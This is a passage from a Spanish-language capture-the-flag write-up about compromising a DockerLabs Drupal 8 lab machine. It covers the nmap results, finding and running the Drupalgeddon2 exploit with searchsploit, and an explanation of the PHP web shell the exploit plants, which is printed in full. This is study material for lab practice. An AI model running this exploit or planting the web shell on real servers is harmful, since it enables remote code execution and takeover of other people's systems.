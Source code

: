 ```ruby
|_  /contact/: Potentially interesting folder
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Podemos ver directorios, si revisamos todos estos nos damos con que ninguno nos ofrece nada interesante, lo interesante es que *Podemos ver que en los 2 escaneos de nmap nos reporta que estamoe frente a
un Drupal 8*, lo cual es intersante porque podemos buscar exploits activos en esa version de *CMS*
Pero primero vamos a echar un ojo a la Web
![web](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/web.png)

## EXPLOTACIÓN
## DESCARGANDO SCRIPT DE SEARCHSPLOIT
Si revisamos los directorios, probamos algunas técnicas en lo que podemos ver no tendremos éxito, lo único que hice fue buscar *exploits* con *searchsploit* para esa version de *Drupal*
```ruby
searchsploit Drupal 8
```
![drupal8_search](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/drupal8_search.png)

Usaremos el exploit 'Drupalgeddon2' Remote Code Execution , aunque tambien podemos ver que podemos explotarlo con Metasploit, lo haremos de las 2 formas porque siempre es bueno aprender a comprometer sistemas con distintas herramientas
asi que:
```bash
seachsploit -m php/webapps/44449.rb
```
para descargarnos el script en *ruby*, le cambiamos de nombre por comodidad

![ejecucion_ruby](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/ejecucion_ruby.png)

Si tratamos de ejecutar el archivo tenemos que pasarle ciertos parámetros como:

- **target**: Esto nos indica que debemos proporcionarle el objetivo, en este caso la IP por donde esta corriendo DRUPAL 8.

- **--aunthentication**: Esta opcion es por si tenemos credenciales validas que podemos ingresar.

- **--verbose**: Para activar una salida detallada de lo que va haciendo el script.

Una vez sabiendo esto podemos ejecutar con los parámetros que tenemos:
```ruby
ruby RCEDrupal.rb http://172.17.0.2/ 
```

![vulnerado_wwwdata](https://github.com/Jean25-sys/CTFs_Wintxx./blob/main/Writeups/dockerlabs/images/findyourstyle/vulnerado_wwwdata.png)

>![+]
>
>Este script lo que hace es bucar archivos y leerlos para confirmar la versio  de Drupal y vemos que la encuentra `v8.x`
>
>El script prueba si es vulnerable a RCE ejecutando un comando simple (echo QSQHCZXB) en el servidor, si el servidor devuelve el resultado esperado (QSQHCZXB), confirma que es vulnerable a la explotación.
>
>El script crea un archivo PHP (shell.php) en el directorio raíz del servidor web, este archivo PHP actúa como una "shell web" básica, permitiendo ejecutar comandos en el servidor a través de solicitudes HTTP.
>
>El script es: `<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }`, este código PHP toma un parámetro c de la solicitud HTTP y lo ejecuta en el sistema operativo del servidor.
>
>El script sugiere usar curl para enviar comandos al servidor a través del archivo shell.php.